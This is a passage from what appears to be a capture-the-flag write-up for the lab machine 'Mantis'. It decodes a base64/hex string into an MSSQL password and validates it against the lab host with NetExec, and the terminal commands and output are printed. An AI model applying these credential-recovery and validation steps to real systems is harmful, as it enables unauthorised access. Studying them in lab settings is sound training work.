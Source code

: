 <figure><img src="../../.gitbook/assets/mantis_cyberchef_1.png" alt=""><figcaption><p>Figure 3: CyberChef automatically recognizes the string as base64 encoded and decodes it. </p></figcaption></figure>

<figure><img src="../../.gitbook/assets/mantis_cyberchef_2.png" alt=""><figcaption><p>Figure 4: CyberChef automatically identifies the decoded string as hex and decodes it to plaintext.</p></figcaption></figure>

We can confirm the results on our terminal, save the password into a file, and validate the credentials.

```bash
# base64 decoding and hex to ASCII convertion
$ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d | xxd -r -p
m$$ql_S@_P@ssW0rd!
# writing the password into a file
$ echo "m\$\$ql_S@_P@ssW0rd!" > admin_pass
# validating the credentials
$ nxc mssql 10.10.10.52 -u admin -p admin_pass --local-auth
MSSQL       10.10.10.52     1433   MANTIS           [*] Windows 7 / Server 2008 R2 Build 7601 (name:MANTIS) (domain:MANTIS)
MSSQL       10.10.10.52     1433   MANTIS           [+] admin:********
```
